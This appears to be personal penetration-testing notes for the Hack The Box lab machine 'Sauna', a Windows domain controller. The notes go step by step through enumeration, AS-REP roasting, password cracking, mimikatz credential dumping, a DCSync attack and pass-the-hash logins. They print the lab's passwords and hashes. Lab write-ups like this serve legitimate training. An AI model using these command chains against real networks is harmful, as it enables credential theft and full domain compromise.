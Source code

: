 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 80
	- IIS 10
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5985
	- winrm
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- 21
	- ftp anonymous@$IP
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- DNS
	- nslookup
		- server $IP
		- 127.0.0.1
	- dig @$IP domain
		- If domain resolves
			- dig axfr @$IP domain
	- Failed
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- Anonymous login successful, no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
- LDAP
	- ldapsearch -x -h 10.10.10.175 -s base namingcontexts
		- DC=EGOTISTICAL-BANK,DC=LOCAL
- 88
	- kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
		- administrator, hsmith, fsmith, sauna
		- fsmith looks like someone from the teams page. First initial last name usernames. Put all into users.txt
		- impacket-GetNPUsers 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
		- crack hash 
			- hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
			- fsmith - Thestrokes23
			- Connect: evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
- 80
	- Default landing page
	- Versions
	- Team
		- Fergus Smith
		- Shaun Coins
		- Hugo Bear
		- Bowie Taylor
		- Sophie Driver
		- Steven Kerb
	- Put 
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Windows
- fsmith
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
		- administrator, hsmith, fsmith, krbtgt, guest, svc_loanmanager
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
	- winpeas
		- .\winPEAS.exe cmd fast > sauna_winpeas_fast
		- Auto logon
			- EGOTISTICALBANK\svc_loanmanager:Moneymakestheworldgoround!
			- Creds found from this commands
				- reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
- svc_loanmanager
	- Connect
		- evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
	- Bloodhound
		- .\Sharphound.exe
		- Open in bloodhound on kali
			- Outbound first degree object control
				- GetChanges and GetChangesAll over the DC. Leads to DCSync Attack
			- Attack
				- impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
					- Dumps all of the creds
					- Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
				- .\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
					- Dumps all of the creds
- administrator
	- Connect
		- impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
		- evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff

### Credentials
### Lessons Learned